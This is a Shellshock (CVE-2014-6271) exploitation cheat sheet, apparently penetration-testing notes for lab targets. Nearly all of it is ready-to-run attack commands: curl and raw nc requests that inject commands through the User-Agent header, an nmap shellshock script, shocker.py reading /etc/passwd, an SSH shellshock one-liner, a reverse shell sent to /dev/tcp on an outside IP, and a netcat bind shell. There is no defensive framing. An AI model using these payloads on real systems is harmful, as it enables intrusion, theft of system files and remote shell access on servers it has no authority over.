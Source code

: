 # General 

curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://10.11.1.xx/cgi-bin/admin.cgi

nmap 10.11.1.xx -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi

./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

## Shellshock via SSH
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'

## cat file (view file contents)

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
       
curl -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.178.102/9999 0>&1" "http://192.168.178.121:80/cgi-bin/status/"

## Shellshock run bind shell using netcat

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

